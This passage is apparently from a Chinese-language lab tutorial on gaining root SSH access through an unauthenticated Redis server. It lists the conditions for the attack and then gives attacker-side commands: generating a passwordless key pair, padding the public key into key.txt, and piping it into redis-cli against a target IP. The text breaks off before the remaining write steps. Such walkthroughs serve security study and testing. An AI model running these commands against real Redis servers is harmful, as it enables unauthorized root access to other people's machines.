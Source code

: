 > authorized_keys文件是什么？
> 我们需要本地机器ssh访问远程服务器时为了减少输入密码的步骤，基本上都会在本地机器生成ssh公钥，然后将本地ssh公钥复制到远程服务器的.ssh/authorized_keys中，这样就可以免密登录了。（ 服务器之间访问同理）。
> 
> 流程如下：
> 1. 本机生成 ssh公钥；
> 2. 复制本机公钥到远程服务器.ssh/authorized_keys中，authorized_keys文件不存在则创建；
> 3. 本机直接ssh连接远程；
> 4. 结束
> 

#### 2、利用条件
redis对外开放，且是未授权访问状态，并且redis服务ssh对外开放，可以通过key登入。

- Redis服务使用**ROOT**账号启动
- 服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。
- 靶机的root目录下需要有.ssh目录

#### 3、漏洞复现
靶机开启ssh服务
```bash
# debian
/etc/init.d/ssh start

# CentOS7
service sshd start
```

在攻击机上执行：
（1）ssh免密码配置
攻击机上创建ssh-rsa密钥，也就是生成key，这里密码搞成空，全部默认即可
```bash
#生成公钥/私钥对,一路回车。
ssh-keygen -t rsa -P ''

cd /root/.ssh/

#将公钥写入 key.txt 文件，为了避免会拼接在其他字符串后面或被其他字符串拼接，这里在公钥上下加两行空行，用于防止乱码。
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt  
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637570633641-d8a86e7b-3f9f-485a-b9f9-799698164e40.png#clientId=u9e20ed45-5375-4&from=paste&id=ua72818fc&margin=%5Bobject%20Object%5D&name=image.png&originHeight=38&originWidth=340&originalType=binary&ratio=1&size=9092&status=done&style=none&taskId=ua23259b5-3488-4b2a-b00a-9e18e3e7889)

> id_rsa.pub里是公钥，如果需要登录到远程主机，需要到远程主机/home/root/.ssh目录下，新建authorized_keys文件，并将id_rsa.pub里的内容复制进去

> ssh公钥生效需满足至少下面两个条件：
> 1 .ssh目录的权限必须是700；
> 2 .ssh/authorized_keys文件权限必须是600；

（2）连接redis写入文件
```bash
# 这里的crackit可以是任意名字，目的是为了传递前面的ssh.txt文件
# -x 代表从标准输入读取数据作为该命令的最后一个参数。
# 这里的 xin 可以修改为任意名
cat key.txt | redis-cli -h 192.168.210.177  -x set xin 

```
       可以看到成功写入：
       